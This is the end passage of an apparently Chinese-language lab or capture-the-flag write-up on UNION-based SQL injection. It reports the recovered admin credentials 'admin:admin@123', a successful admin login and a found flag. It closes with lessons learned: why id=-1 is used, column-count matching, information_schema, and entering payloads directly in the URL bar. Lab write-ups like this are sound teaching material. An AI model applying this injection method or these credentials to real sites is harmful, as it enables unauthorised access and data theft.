

返回结果：**admin:admin@123** 🎉  
使用该账号密码成功登录后台



Flag也成功找到了

### 实验总结

这次实验完整走了一遍 Union 注入的流程，最大的收获是理解了为什么要用 `id=-1`以及为什么列数必须对齐，加上`information_schema` 这个系统库在注入中的核心作用

另外就是操作上要注意：一定要直接在地址栏输入 URL，不能通过页面的搜索框，否则特殊字符会被编码成HTML显示的字符，注入语句就失效了

至此，本实验到此结束
